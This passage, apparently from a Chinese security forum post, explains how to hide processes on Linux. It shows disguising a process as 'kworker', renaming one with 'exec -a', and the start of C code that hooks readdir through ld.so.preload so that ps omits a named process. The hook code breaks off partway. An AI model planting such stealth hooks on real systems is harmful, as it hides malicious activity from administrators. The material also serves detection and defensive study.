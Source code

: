 代码中通过修改argv\[0\]为`kworker`，因为`kworker`是内核进程，修改成这个名，可以起到混淆作用，这里我改成`ttesttttesttestes`方便演示，可以看到利用`ps -ef`命令看到的进程名变了：

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-2de49d65f54c3fbe540dce6e39206c915d8981ca.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-2de49d65f54c3fbe540dce6e39206c915d8981ca.png)

也可以通过通过bash的exec命令的-a参数改变进程名称(<https://mp.weixin.qq.com/s/hWd0EOaBgVbgTBjsdg7QfA>)

```php
exec -a "xxx" sleep 10000
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-00de282f9baef985760482ba4679bcdcdecb2a70.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-00de282f9baef985760482ba4679bcdcdecb2a70.png)

看到sleep命令变成了xxx。

因为ps源码直接调用的函数是opendir以及readdir，因此通过ld.so.preload hook 掉readdir等相关函数，只要发现有恶意进程的信息，就不显示，也可以达到隐藏进程的目的，可以参考[libprocesshider](https://github.com/gianlucaborello/libprocesshider)。这里以当程序中出现`hide_process.py`就不显示结果为例。

`hide_process.py`很简单，就是无限循环：

```php
#!/usr/bin/python
import time
while True:
    time.sleep(1)
```

运行：

```php
./hide_process.py
```

没hook前能看到进程：

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-bd45238aae28159f4a02469d297f5db0f169c752.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-bd45238aae28159f4a02469d297f5db0f169c752.png)

hook后：

```php
#define _GNU_SOURCE

#include <stdio.h>
#include <dlfcn.h>
#include <dirent.h>
#include <string.h>
#include <unistd.h>

/*
 * Every process with this name will be excluded
 */
static const char* process_to_filter = "hide_process.py";

/*
 * Get a directory name given a DIR* handle
 */
static int get_dir_name(DIR* dirp, char* buf, size_t size)
{
    int fd = dirfd(dirp);
    if(fd == -1) {
        return 0;
    }

    char tmp[64];
```
